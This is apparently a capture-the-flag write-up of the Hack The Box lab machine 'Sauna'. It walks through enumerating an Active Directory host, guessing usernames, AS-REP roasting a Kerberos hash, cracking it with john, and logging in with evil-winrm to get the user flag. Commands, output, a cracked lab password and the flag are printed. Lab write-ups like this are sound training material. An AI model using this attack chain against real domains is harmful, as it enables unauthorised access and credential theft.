


# Sauna
## About the Box
The Sauna box is an easy level Windows box worth 20 points. It was running on 10.10.10.175.

## Recon/Enumeration
Run an initial `nmap` scan to check for open ports and services:
```
andrew@kali:~/htb/sauna$ nmap -sV -sC 10.10.10.175
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-13 18:09 AEDT
Nmap scan report for 10.10.10.175
Host is up (0.35s latency).
Not shown: 988 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-03-13 14:12:26Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=3/13%Time=5E6B31E5%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h02m01s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-03-13T14:14:55
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 332.93 seconds
```
So we have Kerberos service running with Active Directory where there may potentially be SMB shares. Before anything technical let's take a look at the website:

After scanning through all the pages, I found something that isn't just Lorem Ipsum text. Names.

I'm sure this will come in handy later, but for now I have to work out how to use it.

## Getting the User Flag
From walkthroughs of past boxes, I have found that SMB is a common attack surface, so I'll try to discover the available shares. I use an anonymous login so the password field doesn't matter.
```
andrew@kali:~/htb/sauna$ smbclient -L //10.10.10.175
Enter WORKGROUP\andrew's password: 
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
SMB1 disabled -- no workgroup available
```
I definitely didn't expect this. Ok, next attempt. From the `nmap` scan we see that we're dealing with Active Directory LDAP so let's try enumerate that:
```
andrew@kali:~/htb/sauna$ ldapsearch -h 10.10.10.175 -x
# extended LDIF
#
# LDAPv3
# base <> (default) with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 32 No such object
text: 0000208D: NameErr: DSID-0310021C, problem 2001 (NO_OBJECT), data 0, best 
 match of:
        ''


# numResponses: 1
```
Not much information here, so I'll just get the domain name of the service. I use `-s base namingcontexts` arguments so I can check for the domain name using a base scope.
```
andrew@kali:~/htb/sauna$ ldapsearch -h 10.10.10.175 -x -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingcontexts: DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1

```
Now we can use the first namingcontext to specify our scope. We run our command `ldapsearch -h 10.10.10.175 -x -b "DC=EGOTISTICAL-BANK,DC=LOCAL"` and get the following result (with some excess I removed):
```
# EGOTISTICAL-BANK.LOCAL
dn: DC=EGOTISTICAL-BANK,DC=LOCAL
objectClass: top
objectClass: domain
objectClass: domainDNS
distinguishedName: DC=EGOTISTICAL-BANK,DC=LOCAL
instanceType: 5
whenCreated: 20200123054425.0Z
whenChanged: 20200322172740.0Z
subRefs: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
subRefs: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
subRefs: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
uSNCreated: 4099
dSASignature:: AQAAACgAAAAAAAAAAAAAAAAAAAAAAAAAQL7gs8Yl7ESyuZ/4XESy7A==
uSNChanged: 53269
name: EGOTISTICAL-BANK
objectGUID:: 7AZOUMEioUOTwM9IB/gzYw==
replUpToDateVector:: AgAAAAAAAAACAAAAAAAAAP1ahZJG3l5BqlZuakAj9gwL0AAAAAAAAAoxi
 BQDAAAAQL7gs8Yl7ESyuZ/4XESy7AmwAAAAAAAA1ARSFAMAAAA=
creationTime: 132293716601413165
forceLogoff: -9223372036854775808
lockoutDuration: -18000000000
lockOutObservationWindow: -18000000000
lockoutThreshold: 0
maxPwdAge: -36288000000000
minPwdAge: -864000000000
minPwdLength: 7
modifiedCountAtLastProm: 0
nextRid: 1000
pwdProperties: 1
pwdHistoryLength: 24

dc: EGOTISTICAL-BANK

# Users, EGOTISTICAL-BANK.LOCAL
dn: CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL

# Computers, EGOTISTICAL-BANK.LOCAL
dn: CN=Computers,DC=EGOTISTICAL-BANK,DC=LOCAL

# Domain Controllers, EGOTISTICAL-BANK.LOCAL
dn: OU=Domain Controllers,DC=EGOTISTICAL-BANK,DC=LOCAL

# System, EGOTISTICAL-BANK.LOCAL
dn: CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL

# LostAndFound, EGOTISTICAL-BANK.LOCAL
dn: CN=LostAndFound,DC=EGOTISTICAL-BANK,DC=LOCAL

# Infrastructure, EGOTISTICAL-BANK.LOCAL
dn: CN=Infrastructure,DC=EGOTISTICAL-BANK,DC=LOCAL

# ForeignSecurityPrincipals, EGOTISTICAL-BANK.LOCAL
dn: CN=ForeignSecurityPrincipals,DC=EGOTISTICAL-BANK,DC=LOCAL

# Program Data, EGOTISTICAL-BANK.LOCAL
dn: CN=Program Data,DC=EGOTISTICAL-BANK,DC=LOCAL

# NTDS Quotas, EGOTISTICAL-BANK.LOCAL
dn: CN=NTDS Quotas,DC=EGOTISTICAL-BANK,DC=LOCAL

# Managed Service Accounts, EGOTISTICAL-BANK.LOCAL
dn: CN=Managed Service Accounts,DC=EGOTISTICAL-BANK,DC=LOCAL

# Keys, EGOTISTICAL-BANK.LOCAL
dn: CN=Keys,DC=EGOTISTICAL-BANK,DC=LOCAL

# TPM Devices, EGOTISTICAL-BANK.LOCAL
dn: CN=TPM Devices,DC=EGOTISTICAL-BANK,DC=LOCAL

# Builtin, EGOTISTICAL-BANK.LOCAL
dn: CN=Builtin,DC=EGOTISTICAL-BANK,DC=LOCAL

# Hugo Smith, EGOTISTICAL-BANK.LOCAL
dn: CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL

# search reference
ref: ldap://ForestDnsZones.EGOTISTICAL-BANK.LOCAL/DC=ForestDnsZones,DC=EGOTIST
 ICAL-BANK,DC=LOCAL

# search reference
ref: ldap://DomainDnsZones.EGOTISTICAL-BANK.LOCAL/DC=DomainDnsZones,DC=EGOTIST
 ICAL-BANK,DC=LOCAL

# search reference
ref: ldap://EGOTISTICAL-BANK.LOCAL/CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOC
 AL

# search result
search: 2
result: 0 Success

# numResponses: 19
# numEntries: 15
# numReferences: 3

```
Not much information here apart from the facts that there is no password lockout threshold and the minimum password length is 7 which may be useful if we need to bruteforce.
At this point I was clueless as to what to do so I used all the past commands with different arguments and repeated things (insane, I know), but to no avail. I even used `crackmapexec` to try a bruteforce, but then again I had no idea what credentials to try.
After referring to the HTB forum (which was as cryptic as ever), I realised I needed to investigate the `impacket` script suite and common Active Directory user conventions.
First I'm gonna use `GetADUsers.py` from `impacket` to try and enumerate users without credentials.
```
andrew@kali:~/htb/sauna$ GetADUsers.py -dc-ip 10.10.10.175 'egotistical-bank.local/'
Impacket v0.9.21.dev1+20200312.235721.8afe4fe1 - Copyright 2020 SecureAuth Corporation

[*] Querying 10.10.10.175 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
```
Unsurprisingly this didn't work, so I'll now use `GetNPUsers.py` to check for valid users and obtain their Kerberos TGT keys. However for this we need to supply the program a list of possible users. We can make a list using AD user conventions to make educated guesses such as firstname.lastname, first letter of first name followed by last name and so forth. This is the list I used:
```
fergus.smith
fergussmith
fsmith
f.smith
hugo.bear
hugobear
hbear
h.bear
steven.kerb
stevenkerb
skerb
s.kerb
shaun.coins
shauncoins
scoins
s.coins
bowie.taylor
bowietaylor
btaylor
b.taylor
sophie.driver
sophiedriver
sdriver
s.driver
```
We run the script and we finally get lucky:
```
andrew@kali:~/htb/sauna$ GetNPUsers.py egotistical-bank.local/ -dc-ip 10.10.10.175 -user userlist.txt -format john
Impacket v0.9.21.dev1+20200312.235721.8afe4fe1 - Copyright 2020 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$fsmith@EGOTISTICAL-BANK.LOCAL:783d9e6ad2efd9f9de019a493fd9fb1d$8735074dbab2a507937fc59ca0b61ac0fe78c63779ef3dbe308a7e0309c74e9c32ca28eb8d730cf3d42add26dd31baa2453f87d865f337df6c4c382d8bc74279b1b3b9a3e87cd592b02e9bf34e72dcd9dfec6c402e7b9a91394139f6d2dbd1da16b2e3a906e48dcb87930ab9629204aa00e035927249a5b05f304f7e45a9a9f0b2aa08ad3b402e4e5fb28a17ac4da4c7f5a3b4e1a79b697c7707047698dba6b51de3dea2384fe498cf864424b4aaeb58e892fca3d1ea86b1d42e37825db2dcbe1919b71ea188d3eb0512769f41c5600cef6e72ae3784bf562c226426f2649f74407a36564c64d90833eb18747332b094817ff1fca3dc076d8e75b7c978889303
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)

```
We have found a valid user `fsmith` and gotten their TGT (a Kerberos authentication ticket which contains encrypted user credentials). Let's give this to `john` and crack the password.
```
andrew@kali:~/htb/sauna$ john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt fsmith.asrep                                 
Using default input encoding: UTF-8                                                                                                       
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])            
Will run 4 OpenMP threads                                                                                                                 
Press 'q' or Ctrl-C to abort, almost any other key for status                                                                             
Thestrokes23     ($krb5asrep$fsmith@EGOTISTICAL-BANK.LOCAL)                                                                               
1g 0:00:00:06 DONE (2020-03-24 12:39) 0.1589g/s 1675Kp/s 1675Kc/s 1675KC/s Thrall..Thehunter22                                            
Use the "--show" option to display all of the cracked passwords reliably                                                                  
Session completed
```
Now we can run `smbmap` with these credentials to view the smb shares
```
andrew@kali:~/htb/sauna$ smbmap -H 10.10.10.175 -u fsmith -p Thestrokes23
[+] IP: 10.10.10.175:445        Name: 10.10.10.175                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        RICOH Aficio SP 8300DN PCL 6                            NO ACCESS       We cant print money
        SYSVOL                                                  READ ONLY       Logon server share
```
Using `smbmap` I recursively scanned the directories in the read only shares, but found nothing of use. Not much left to do other than access the account directly with thesee credentials so I'll login as fsmith, using a shell from `evil-winrm`:
```
andrew@kali:~/htb/sauna$ evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23                                                    
                                                                                                                                 
Evil-WinRM shell v2.3                                                                                                            
                                                                                                                                 
Info: Establishing connection to remote endpoint                                                                                 
                                                                                                                                 
/usr/lib/ruby/vendor_ruby/net/ntlm/client/session.rb:39: warning: constant OpenSSL::Cipher::Cipher is deprecated                 
/usr/lib/ruby/vendor_ruby/net/ntlm/client/session.rb:128: warning: constant OpenSSL::Cipher::Cipher is deprecated                
/usr/lib/ruby/vendor_ruby/net/ntlm/client/session.rb:138: warning: constant OpenSSL::Cipher::Cipher is deprecated                
*Evil-WinRM* PS C:\Users\FSmith\Documents>
```
And we're finally in. Navigate to `Desktop` and we have the user flag.
```
cat*Evil-WinRM* PS C:\Users\FSmith\Desktop> cd ../Documents
*Evil-WinRM* PS C:\Users\FSmith\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\FSmith\Desktop> ls


    Directory: C:\Users\FSmith\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/23/2020  10:03 AM             34 user.txt


*Evil-WinRM* PS C:\Users\FSmith\Desktop> cat user.txt
1b5520b98d97cf17f24122a55baf70cf
```
## Getting the Root Flag

## Reflection
This box was an absolute pain for me, mainly because I knew effectively nothing about Kerberos, SMB or Active Directory. I consulted the forums for help on many occasions which would point me towards tool suites like the `impacket` library.